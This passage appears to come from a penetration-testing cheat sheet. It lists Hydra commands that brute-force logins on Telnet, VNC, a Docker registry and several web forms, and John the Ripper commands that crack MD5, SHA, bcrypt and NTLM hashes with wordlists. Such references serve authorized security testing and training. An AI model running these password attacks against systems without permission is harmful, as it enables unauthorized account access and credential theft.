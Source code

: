 ### Telnet

```console
$ hydra <RHOST> -L usernames.txt -P passwords.txt telnet -V
```

### VNC

```console
$ hydra <RHOST> -P passwords.txt vnc -V
```

### Docker Registry

```console
$ hydra <RHOST> -L usernames.txt  -P passwords.txt -s 5000 https-get /v2/
```

### Webform

```console
$ hydra <RHOST> -l <USERNAME> -P /PATH/TO/WORDLIST/<FILE> http-post-form "/admin.php:username=^USER^&password=^PASS^:login_error"
$ hydra <RHOST> -l <USERNAME> -P /PATH/TO/WORDLIST/<FILE> http-post-form "/index.php:username=user&password=^PASS^:Login failed. Invalid"
$ hydra <RHOST> -L /PATH/TO/WORDLIST/<FILE> -P /PATH/TO/WORDLIST/<FILE> http-post-form "/login:usernameField=^USER^&passwordField=^PASS^:unsuccessfulMessage" -s <RPORT>
$ hydra <RHOST> -l root@localhost -P otrs-cewl.txt http-form-post "/otrs/index.pl:Action=Login&RequestedURL=Action=Admin&User=root@localhost&Password=^PASS^:Login failed" -vV -f
$ hydra <RHOST> -l admin -P /PATH/TO/WORDLIST/<FILE> http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=COOKIE_1&__EVENTVALIDATION=COOKIE_2&UserName=^USER^&Password=^PASS^&LoginButton=Log+in:Login failed"
```

## John the Ripper

> https://github.com/openwall/john

```console
$ john md5 --wordlist=/PATH/TO/WORDLIST/<WORDLIST> --format=raw-md5
$ john sha-1 --wordlist=/PATH/TO/WORDLIST/<WORDLIST> --format=raw-sha1
$ john sha256 --wordlist=/PATH/TO/WORDLIST/<WORDLIST> --format=raw-sha256
$ john bcrypt --wordlist=/PATH/TO/WORDLIST/<WORDLIST> --format=bcrypt
$ john md4 --wordlist=/PATH/TO/WORDLIST/<WORDLIST> --format=md4
$ john ntlm --wordlist=/PATH/TO/WORDLIST/<WORDLIST> --format=nt
$ john sha512 --wordlist=/PATH/TO/WORDLIST/<WORDLIST>
```

### Show cracked Password

```console
$ john --show <FILE>
```

### Using Salt
